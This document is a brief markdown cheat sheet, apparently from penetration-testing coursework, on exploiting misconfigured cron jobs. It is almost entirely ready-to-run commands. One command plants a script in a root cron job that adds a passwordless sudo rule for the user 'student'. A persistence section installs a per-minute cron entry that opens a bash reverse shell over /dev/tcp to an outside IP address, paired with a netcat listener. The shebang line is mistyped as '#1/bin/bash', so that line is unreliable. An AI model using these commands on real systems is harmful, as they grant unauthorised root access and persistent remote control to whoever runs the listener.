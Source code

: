 # Exploiting Misconfigured Cron Jobs

Crontab file will show you the cron jobs  
They can be run as any user on the system  
**For Privilege escalation, we want to target Jobs created by the root user**  

Viewing Cronjobs  
```crontab -l```

Look for all occurences of path to file using grep   
```grep -rnw /usr -e "/home/student/message"```  

Navigate to the file that is running as a cron job  
Run this command to add user to the sudoers file  
```printf '#1/bin/bash\necho " "student ALL=NOPASSWD":ALL" >> /etc/sudoers' > /usr/local/share/copy.sh```

# Persistence via cron jobs
1. cat /etc/cron*
2. ```echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.163.90.2/1234 0>&1'" > cron```
3. ```crontab -i cron```
4. ```crontab -l``` -- tells you the cronjobs
5. setup netcat listener and add the port in the cronjob

